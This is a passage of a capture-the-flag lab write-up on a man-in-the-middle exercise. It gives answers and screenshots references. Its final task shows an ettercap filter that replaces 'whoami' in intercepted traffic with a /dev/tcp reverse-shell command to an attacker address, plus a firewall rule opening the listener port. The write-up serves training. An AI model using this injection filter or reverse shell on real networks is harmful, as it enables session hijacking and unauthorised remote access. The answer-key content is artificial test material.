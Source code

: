 #### You should also have seen some rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server?

![](<../../.gitbook/assets/Screenshot from 2022-05-03 06-51-20.png>)

{% hint style="success" %}
`reverse shell`
{% endhint %}

#### What commands are being executed? Answer in the order they are being executed.

![](<../../.gitbook/assets/Screenshot from 2022-05-03 06-53-35.png>)

{% hint style="success" %}
`whoami, pwd, ls`
{% endhint %}

#### Which of the listed files do you want?

{% hint style="success" %}
`root.txt`
{% endhint %}

## Task 8 Man-in-the-Middle: Manipulation

#### What is the root.txt flag?

```bash
sudo ufw allow in on eth1 from 192.168.12.20 to 192.168.12.66 port 6666 proto tcp
```

![](<../../.gitbook/assets/Screenshot from 2022-05-03 07-02-06.png>)

```bash
if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "sh -i >& /dev/tcp/192.168.12.66/6666 0>&1");
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
```
